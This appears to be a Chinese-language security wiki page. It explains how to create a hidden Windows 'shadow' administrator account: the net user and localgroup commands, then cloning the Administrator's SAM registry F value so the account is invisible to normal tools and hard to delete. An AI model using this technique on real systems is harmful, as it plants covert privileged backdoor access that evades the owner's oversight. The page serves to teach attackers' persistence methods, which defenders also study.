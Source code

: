 ## 影子用户

影子用户

影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的

在用户名后面加一个$可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组


```bash
net user test$ test /add
net localgroup administrators test$ /add
```

可以看到net user是看不到我们创建的用户，但是计算机管理-用户和组中可以看到

![](images/security_wiki/15906328731148.png)

所以这时候我们就需要修改一下注册表，其键位置为：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

注意：SAM键值默认是只能system权限修改的，所以我们要修改一下SAM键的权限，给予administrator完全控制和读取的权限

![](images/security_wiki/15906328893048.png)


然后我们将administrator用户对应的项中的F值复制到test$对应xiang中的F值，然后保存

![](images/security_wiki/15906329017770.png)


然后我们将test$删除掉


```bash
net user test$ /del
```

然后再双击导出的注册表文件，然后我们再看一下

![](images/security_wiki/15906329211423.png)


net user和计算机管理-用户和组中都查看不到用户了，但是我们可以用`net user test$`查看用户信息

这个时候我们再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。